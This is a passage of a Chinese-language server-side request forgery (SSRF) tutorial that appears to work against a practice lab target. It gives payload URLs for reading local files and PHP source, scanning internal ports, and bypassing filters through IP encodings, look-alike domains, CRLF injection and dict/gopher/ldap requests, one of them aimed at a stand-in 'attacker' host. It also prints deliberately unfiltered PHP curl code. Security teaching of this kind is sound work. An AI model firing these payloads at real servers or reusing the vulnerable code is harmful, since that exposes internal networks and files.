

那我们就可以利用这个来进行利用

- 读取本地文件

```bash
http://d19.s.iproute.cn/vul/ssrf/ssrf_curl.php?
url=file:///C:\windows\win.ini
```



可以看到文件内容被显示到网页上

- 内网探测

如果端口开放就会把对应的界面显示到网页中，如果没有开放就会转圈需要一直在链接，并且我们可以使用F12查看有无新增的前端代码

端口未开放

```bash
http://d19.s.iproute.cn/vul/ssrf/ssrf_curl.php?url=http://10.1.10.10:22
```



- 源码分析

```php
<?php
if(isset($_GET['url']) && $_GET['url'] != null){
   // 接收前端 URL 没问题 ,但是要做好过滤 ,如果不做过滤 ,就会导致 SSRF
   $URL = $_GET['url'];
   $CH = curl_init($URL);
   curl_setopt($CH, CURLOPT_HEADER, FALSE);
   curl_setopt($CH, CURLOPT_SSL_VERIFYPEER, FALSE);
   $RES = curl_exec($CH);
   curl_close($CH) ;
   echo $RES;
}
?>
```

前端传进来的url被后台使用curl_exec()进行了请求,然后将请求的结果又返回给了前端。

除了http/https外,curl还支持一些其他的协议curl --version可以查看其支持的协议,curl支持很多协议：

```plain
dict file ftp ftps gopher gophers http https imap imaps ldap ldaps mqtt pop3 pop3s
rtmp rtsp scp sftp smb smbs smtp smtps telnet tftp
```

#### 2.4.2 ssrf_fgc

```plain
http://d19.s.iproute.cn/vul/ssrf/ssrf_fgc.php?
file=http://d19.s.iproute.cn/vul/ssrf/ssrf_info/info2.php
```



读取当前文件

```plain
http://d19.s.iproute.cn/vul/ssrf/ssrf_fgc.php?
file=php://filter/read=convert.base64-encode/resource=ssrf_fgc.php
```



### 2.5 绕过

- 攻击本机

```plain
http://127.0.0.1:80
http://localhost:22
```

- 利用@绕过 

```plain
http://example.com@127.0.0.1
# 这里的example.com可以任意替换，
```

- 利用短地址绕过

```plain
http://127.0.0.1可以变为http://suo.im/5UHEvD
# 转换地址you很多，可以采用http://tool.chinaz.com/tools/dwz.aspx
```

- 特殊域名绕过

```plain
http://127.0.0.1.xip.io/
http://www.margin.com.127.0.0.1.xip.io/
```

- 利用Enclosed alphanumerics

```plain
利用Enclosed alphanumerics
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ 
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

- 利用句号代替点绕过

```plain
127.0.0.1 变为127。0。0。1
```

- 使用其他进制绕过，例如127.0.0.1

```plain
(1)、8进制格式：0177.0.0.1
(2)、16进制格式：0x7F.0.0.1
(3)、10进制整数格式：2130706433（转16进制，在转10进制）
(4)、16进制整数格式：0x7F000001
(5)、还有一种特殊的省略模式，例如127.0.0.1这个IP可以写成127.1
```

- 特殊域名绕过（DNS解析）

```plain
互联网上有很多解析到127.0.0.1的域名，例如：

safe.taobao.com
114.taobao.com
ecd.tencent.com
wifi.aliyun.com
一个专门解析到127.0.0.1的域名：localtest.me，也可以使用子域名。例如：

localtest.me
www.localtest.me
test.localtest.me
a.b.c.localtest.me
1234.localtest.me
```

- 利用协议

```plain
Dict://
 dict://<user-auth>@<host>:<port>/d:<word>
 ssrf.php?url=dict://attacker:11111/
SFTP://
 ssrf.php?url=sftp://example.com:11111/
TFTP://
 ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
 ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
 ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost
```

- CRLF 编码绕过

```plain
%0d->0x0d->\r 回车
%0a->0x0a->\n 换行
进行 HTTP 头部注入
example.com/?url=http://eval.com%0d%0aHOST:fuzz.com%0d%0a
```

- 使用IPV6

有些服务没有考虑 IPv6 的情况，但是内网又支持 IPv6 ，则可以使用 IPv6 的本地 IP 如 [::] 0000::1 或IPv6 的内网域名来绕过过滤。

